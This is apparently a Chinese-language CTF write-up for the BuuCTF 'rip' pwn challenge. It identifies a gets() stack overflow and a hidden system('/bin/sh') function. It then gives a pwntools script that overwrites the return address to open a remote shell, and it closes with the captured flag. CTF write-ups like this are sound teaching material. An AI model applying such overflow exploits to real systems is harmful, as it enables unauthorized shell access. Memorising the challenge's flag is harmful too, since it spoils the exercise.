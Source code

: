 ```yaml
---
tags:
  - BuuCTF
  - 简单
---
```


# rip

## 前置工作

下载附件，用 IDA 64 进行逆向，找到 `main()` 函数的反汇编伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

发现高危函数 `gets()`，没有任何的限制，全部存储进 `s[15]` 中，可造成栈溢出

接下来按下 Shift + F12 寻找 `/bin/sh` 字符串，再按下 Ctrl + X 进入引用的函数，得到以下内容

```
; Attributes: bp-based frame

public fun
fun proc near
; __unwind {
push    rbp
mov     rbp, rsp
lea     rdi, command    ; "/bin/sh"
call    _system
nop
pop     rbp
retn
; } // starts at 401186
fun endp
```

找到函数开始的地址 `0x401186`，命为 `fun_addr`

## 编写 Exp

先用 0xF（数组的大小）+ 8（dup 的大小）个垃圾数据填饱栈，然后将函数 `fun()` 的地址打包发送过去（`pack(x, 64)` 与 `p64()` 作用相同），这种情况在本地是可以运行的，但是远程连接就会失效，就需要给 `fun_addr` +1 来取得堆栈平衡

```
from pwn import *

r = remote("node4.buuoj.cn", 29901)
fun_addr = 0x401186
payload = b"A"*(0xF + 8) + pack(fun_addr + 1, 64)
r.sendline(payload)
r.interactive()
```

## 攻入靶机

运行攻击代码后，输入 `cat flag`，最终取得的结果为 `flag{dd7de097-3853-4e0e-bc09-d46e2541c68c}`